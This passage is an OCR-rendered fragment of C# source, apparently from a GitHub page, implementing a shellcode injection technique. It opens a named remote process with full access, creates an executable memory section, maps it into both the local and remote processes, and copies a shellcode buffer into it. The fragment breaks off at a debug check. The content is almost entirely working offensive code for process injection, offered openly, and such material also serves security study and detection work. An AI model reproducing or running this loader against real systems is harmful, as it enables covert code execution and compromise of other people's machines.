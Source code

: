 ```csharp
            }

            int bufLength = buf.Length;
            UInt32 uBufLength = (UInt32)bufLength;

            // Get handle on a local process
            IntPtr hLocalProcess = Process.GetCurrentProcess().Handle;

            // Get handle on a remote process (by name)
            string processName = args[0];
            Process[] pList = Process.GetProcessesByName(processName);
            if (pList.Length == 0)
            {
                Console.WriteLine("[-] No such process");
                return;
            }
            int processId = pList.First().Id;
            IntPtr hRemoteProcess = OpenProcess(PROCESS_ALL_ACCESS, false, processId);
            if (hRemoteProcess == IntPtr.Zero)
            {
                Console.WriteLine("[-] Failed to open remote process");
                return;
            }

            // Create RWX memory section for the shellcode
            IntPtr hSection = new IntPtr();
            if (NtCreateSection(ref hSection, SECTION_MAP_READ | SECTION_MAP_WRITE | SECTION_MAP_EXECUTE, IntPtr.Zero, ref uBufLength, PAGE_EXECUTE_READWRITE, SEC_COMMIT, IntPtr.Zero) != 0)
            {
                Console.WriteLine("[-] Falied to create a section for the shellcode");
                return;
            }

            // Map the view of created section into the LOCAL process's virtual address space (as R-W)
            IntPtr baseAddressL = new IntPtr();
            ulong sectionOffsetL = new ulong();
            if (NtMapViewOfSection(hSection, hLocalProcess, ref baseAddressL, UIntPtr.Zero, UIntPtr.Zero, out sectionOffsetL, out uBufLength, 2, 0, PAGE_READ_WRITE) != 0)
            {
                Console.WriteLine("[-] Falied to map the view into local process's space");
                return;
            }
            
            // Map the view of (the same) created section into the REMOTE process's virtual address space (as R-E)
            IntPtr baseAddressR = new IntPtr();
            ulong sectionOffsetR = new ulong();
            if (NtMapViewOfSection(hSection, hRemoteProcess, ref baseAddressR, UIntPtr.Zero, UIntPtr.Zero, out sectionOffsetR, out uBufLength, 2, 0, PAGE_READ_EXECUTE) != 0)
            {
                Console.WriteLine("[-] Falied to map the view into remote process's space");
                return;
            }

            // Copy the shellcode into the locally mapped view which will be reflected on the remotely mapped view
            Marshal.Copy(buf, 0, baseAddressL, bufLength);

            // BEGIN DEBUG (check if the shellcode was copied correctly)
            byte[] remoteMemory = new byte[bufLength];
            IntPtr bytesRead = new IntPtr();
```